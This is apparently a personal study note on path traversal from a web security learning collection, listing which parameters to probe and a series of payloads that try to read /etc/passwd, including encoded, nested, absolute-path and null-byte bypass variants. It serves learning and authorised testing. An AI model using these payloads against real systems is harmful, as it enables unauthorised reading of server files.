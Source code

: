 ### Where to look

- Review parameters in the URL and POST body where files or directories are referenced

### What to try

- Reading arbitrary files at `/var/www/images/../../../etc/passwd` by submitting `https://insecure-website.com/loadImage?filename=../../../etc/passwd`
- Try absolute paths `filename=/etc/passwd`
- Nested traversal sequences `....//` or `....\/`
- Encoding and double encoding in `multipart/form-data` requests like `%2e%2e%2f` and `%252e%252e%252f`
- Non-standard encodings like `..%c0%af` or `..%ef%bc%8f` may work as well
- Parameter may expect value to start with proper full file path `filename=/var/www/images/../../../etc/passwd`
- Parameter may expect value to end with certain extension `filename=../../../etc/passwd%00.png`

### More Details

More details can be found at [[Cyber Security/Learning/Web Security Academy/Path Traversal|Path Traversal]]